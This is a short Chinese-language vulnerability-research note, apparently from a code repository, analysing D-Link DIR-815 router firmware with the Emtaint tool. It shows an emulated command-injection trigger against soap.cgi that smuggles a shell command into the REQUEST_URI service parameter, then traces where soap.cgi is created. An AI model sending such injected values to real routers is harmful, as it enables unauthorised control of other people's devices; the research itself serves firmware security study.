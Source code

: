 使用Emtaint分析dir815路由器固件结果

为了调试，我们在/htdocs/web/创建cgibin的软连接soap.cgi，并创建var/run目录。
```
ln -s /htdocs/cgibin soap.cgi
```

需要先开启xmldb

```
sudo chroot . bin/sh
$ xmldb -n wrgnd08_dlob_dir815 -t
```

触发命令注入的命令如下，命令会创建一个flag文件。

```
sudo chroot . ./qemu-mipsel-static -E CONTENT_TYPE="text/xml" -E HTTP_SOAPACTION="a#a" -E REQUEST_URI="?service=aaa;touch flag;" -E REQUEST_METHOD="POST" -g 1234 /htdocs/web/soap.cgi
```

但原固件解包中并没有找到soap.cgi文件，因此该命令注入是否有机会通过web接口触发？

首先，soap.cgi是如何创建的？我通过grep来从文件系统中寻找有关soap.cgi的位置。

![](images/Pasted%20image%2020231124152759.png)

发现在/etc/services/HTTP/httpsvcs.php:133文件中执行了命令，创建了soap.cgi软连接。该文件中包含很多函数，执行该命令的函数为upnpsetup()。

```sh
function upnpsetup($name)
{
	...
	$vdir = "/var/htdocs/upnp/".$name;
	...
	if ($mkln > 0)
	{
		startcmd("ln -s /htdocs/cgibin ".$vdir."/soap.cgi");
		startcmd("ln -s /htdocs/cgibin ".$vdir."/gena.cgi");
	}
```

通过看FirmAE仿真的shell，相应目录下确实存在soap.cgi。

![](images/Pasted%20image%2020231124155348.png)

继续搜索调用upnpsetup()的地方。

![](images/Pasted%20image%2020231124153919.png)


## 参考
[记一次失败的漏洞挖掘过程 | ZIKH26's Blog](https://zikh26.github.io/posts/d3519884.html)